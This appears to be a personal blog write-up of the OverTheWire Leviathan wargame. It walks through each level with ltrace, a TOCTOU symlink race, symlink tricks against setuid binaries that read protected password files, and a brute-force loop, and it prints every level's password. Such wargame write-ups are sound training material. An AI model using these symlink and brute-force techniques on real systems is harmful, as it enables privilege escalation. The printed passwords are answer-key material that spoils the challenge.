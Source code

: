 +++
title = "Leviathan"
date = "2024-12-23T06:17:50+03:00"
#dateFormat = "2006-01-02" # This value can be configured for per-post date formatting
author = "Tariq Baater"
authorTwitter = "tariqbaater" #do not include @
cover = "/over-the-wire.png"
tags = ["cybersecurity", "ctf", "overthewire"]
keywords = ["", ""]
description = "Overthewire Leviathan Writeup"
showFullContent = false
readingTime = true
hideComments = false
+++

# Leviathan

## leviathan0
username: leviathan0  
password: leviathan0  
ssh port: 2223

use grep to find the password.


## leviathan1
username: leviathan1  
password: 3QJ3TgzHDq

read the binary and trace with ltrace and strings.


## leviathan2
username: leviathan2  
password: NsN1HwFoyN

if you ltrace the the binary 'printfile' you will see it's using access() function that is known for a vulnerability TOCTOU (Time-of-check to time-of-use) and was mostly abused using symlinks.

Check the binary how it works
```bash
ltrace -f ./printfile filename
```
Since we found that access has a delay reading files, we can use that opportunity to read a filtered file.
The idea is to modify the file between the moment it gets checked for permissions and the moment it gets opened. This is done by creating a symlink on the file, targeting the real file we wanna access.

You'll need to run the commands on two separate screens, first we will chain multiple commands to symlink the target file to our tmp file in tmp then watch it run every 0.1 seconds.

```bash
watch -n 0.1 touch /tmp/tmpfolder/lev3; ln -sf /etc/leviathan_pass/lev3 /tmp/tmpfolder/lev3; rm /tmp/tmpfolder/lev3
```

On the second screen i will use a for loop to print the file 50 times hoping that i catch the delay loop hole before being restricted.
```bash
for i in {1..50}; do     ./printfile /tmp/sbin/lev3; done
```
After few loops the intended output will be printed.

```bash
You cant have that file...
You cant have that file...
You cant have that file...
You cant have that file...
You cant have that file...
You cant have that file...
f0n8h2iWLP
You cant have that file...
You cant have that file...
You cant have that file...
```

## leviathan3
username: leviathan3  
password: f0n8h2iWLP

read the binary 'level3' and trace with ltrace and strings, there is a string comparison, same as as leviathan1.


## leviathan4
username: leviathan4  
password: WG1egElCvO

There is a binary labelled 'bin' in a hidden trash directory, if executed it prints out binary bytes. So i used the below script to decode the bytes to ascii text.

```bash
#!/bin/bash
for binary in "$@"; do
    printf "\\$(printf '%03o' "$((2#$binary))")"
done
```

If you run the above script against the binary you will find your password for leviathan5.

```bash
chmod +x script.sh
./script 00110000 01100100 01111001 01111000 01010100 00110111 01000110 00110100 01010001 01000100 00001010
0dyxT7F4QD
```

## leviathan5
username: leviathan5  
password: 0dyxT7F4QD

This one is also fairly easy.

```bash
# If you echo foo into the file and run the leviathan5 binary, it will print out the file content.
echo "foo" > /tmp/file.log
# output: foo

# so all we have to do is to link the leviathan6 password file to /tmp/file.log
ln -sf /etc/leviathan_pass/leviathan6 /tmp/file.log

# and run the leviathan5 binary
./leviathan5 /tmp/file.log
# output: szo7HDB88w
```


## leviathan6
username: leviathan6  
password: szo7HDB88w

There is a binary that requires a 4 digit code, so i used the below script to generate the code.

```bash
for i in {1..9999}; do ./leviathan6 $i; done
```
Eventually one of the loop will crack the code and we get shell, just cat the next level password.


## leviathan7
username: leviathan7  
password: qEs5Io5yM8

And that's it for now.

